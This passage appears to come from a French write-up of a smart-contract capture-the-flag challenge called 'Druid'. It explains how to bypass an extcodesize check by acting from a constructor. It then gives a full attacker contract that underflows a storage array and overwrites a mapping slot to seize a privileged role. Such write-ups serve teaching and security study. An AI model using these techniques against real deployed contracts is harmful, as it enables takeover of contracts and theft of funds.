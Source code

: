 Pour ce faire, il faut que ce smart contract appele lui même cette function, le seul moyen se trouve dans la fonction `fallback()`.

La fonction `fallback()` est protégé par la magie, implémentée de la manière suivante : 

    modifier isMagic(){
        require(msg.sender != tx.origin && !isContract(msg.sender),"Only clever Druid can achieve this.");
        _;
    }

    function isContract(address _addr) private view returns (bool){
        uint32 size;
        assembly {
            size := extcodesize(_addr)
        }
        return (size > 0);
    }

La première condition *msg.sender != tx.origin* vérifie que la fonction est appelée depuis un contrat et non depuis une adresse d'origine. 
La deuxième condition *!isContract(msg.sender)* vérifie que l'appelant n'est pas lui-même un contrat en vérifiant la taille du code de l'appelant.

Cependant, il est important de noter qu'il est possible de contourner la deuxième condition en effectuant tous les appels de fonction nécessaires dans le constructeur du contrat appelant, ce faisant sa taille est de 0.

De plus on remarque dans la fonction `fallback()`, qu'il retire le premier byte de msg.data, puis fait un appelle sur lui même. Il faut donc ajouter un bytes, quelconques, avant l'encodage de fonction.

On peut donc écrire notre dernier smart contract Attack0 : 
```js
    pragma solidity 0.8.19;

    import "./druid.sol";

    contract Attack0{
        constructor(Druid _druid, uint256 slotArray, uint256 slotMapping, address keyMapping){

            Druid druid = _druid;

            // underflow Herbs array
            bytes memory input = abi.encodePacked("x",abi.encodeWithSignature("popHerb()"));
            
            address(druid).call(input);
            address(druid).call(input);
            address(druid).call(input);

            //overwrite the right slot to became Druid
            uint256 targetMappingAddr = uint256(keccak256(abi.encode(keyMapping, slotMapping)));
            uint256 addrArray = uint256(keccak256(abi.encodePacked(slotArray)));
            uint256 indexOverwriting;
            if (targetMappingAddr > addrArray) {
                indexOverwriting = targetMappingAddr - addrArray;
            } else {
                indexOverwriting = type(uint256).max - addrArray + targetMappingAddr + 1;
            }

            druid.updateHerb(indexOverwriting,"1");
        }
    }
```
